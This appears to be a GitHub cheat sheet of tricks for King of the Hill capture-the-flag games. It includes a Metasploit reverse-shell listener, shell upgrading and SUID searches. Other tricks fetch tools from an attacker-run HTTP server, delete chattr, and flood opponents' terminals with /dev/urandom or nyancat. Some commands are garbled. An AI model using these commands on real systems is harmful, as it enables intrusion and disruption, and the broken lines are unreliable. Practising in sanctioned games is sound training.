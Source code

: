                                                    <Tricks-For-All-Things>

# if you need (sure will) to install "chattr" on a machine here's a gift: 

```
https://github.com/Macchimne/Chattr-for-Koth
```

# if you want to create a simple web server in python (generally to download or install something from machine to machine): 

```
python3 -m http.server <port>
```

# if you need to see open ports:

```
netstat -anpt
```

# Download files using php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# if you need to install python without root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# a fully tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Search Suid's:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# delete chattr:
```
rm -rf /usr/bin/chattr
  ```
# Find Flags:
```
find / -name flags

# Nyan-cat:
git clone https://github.com/klange/nyancat
cd nyancat/src
make
## Sending Nyancat to machine:
python -m SimpleHTTPServer 80 # on your local machine

wget http://yourip/nyancat # on the KOTH machine

chmod +x nyancat

./nyancat > /dev/pts/#  < here where is the # you will place the enemy PTS
```
# Breaking pts by sending spam from urandom
```
cat /dev/urandom > /dev/pts/#
```
# Changing the ssh port:
```
nano /etc/ssh/sshd_config

Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
by default the SSH port is port 22, but you can change this port for example
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
service sshd restart
```
//and ready after restarting the SSH service the SSH port will be at 55999
